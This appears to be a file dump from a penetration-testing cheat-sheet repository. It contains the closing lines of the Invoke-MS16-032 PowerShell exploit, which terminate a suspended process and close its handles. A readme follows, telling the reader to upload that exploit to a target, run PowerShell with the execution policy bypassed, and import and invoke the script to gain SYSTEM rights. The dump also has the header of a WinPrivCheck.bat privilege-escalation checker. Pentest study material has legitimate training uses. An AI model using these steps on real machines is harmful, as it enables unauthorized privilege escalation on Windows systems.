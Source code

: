 		# Clean up suspended process
		$CallResult = [Kernel32]::TerminateProcess($ProcessInfo.hProcess, 1)
		$CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
		$CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)

	}
	
	# Kill runspace & stopwatch if edge-case
	$StartTokenRace.Stop()
	$SafeGuard.Stop()
}


---
File: /CheatSheets/windows/priv_esc/readme.md
---

# Windows Privilege Escalation

## Exploit ms16_032
wget  [Invoke-MS16-032.ps1](https://github.com/kitsun3sec/Pentest-Cheat-Sheets/tree/master/CheatSheets/windows/priv_esc/Invoke-MS16-032.ps1)

#### Upload it to the target and through the powershell command line execute:
```bash
> powershell -ExecutionPolicy Bypass
> Import-Module .\Invoke-MS16-032.ps1
> Invoke-MS16-032
```
##### Done, if everything worked fine, you're now system user.

## WinPrivCheck.bat

##### Upload it to the target and run through terminal

```cmd
WinPrivCheck.bat
```


---
File: /CheatSheets/windows/priv_esc/WinPrivCheck.bat
---

@echo off

rem #---------------------------------------------------------------------------------#
rem # Name         = Windows Privilege Escalation Check v1.0                          #
rem # Reference    = http://www.fuzzysecurity.com/tutorials/16.html                   #
rem # Author       = @ihack4falafel                                                   #
rem # Date         = 9/18/2017                                                        #
rem # Tested On    = Windows XP SP3 - Professional                                    #
rem #                Windows 7 SP1  - Entrprise                                       #
rem #                Windows 10     - Professional                                    #
rem # Usage        = WinPrivCheck.bat                                                 #
rem # Requirements = accesschk.exe(old version) - sysinternals                        #
rem #---------------------------------------------------------------------------------#
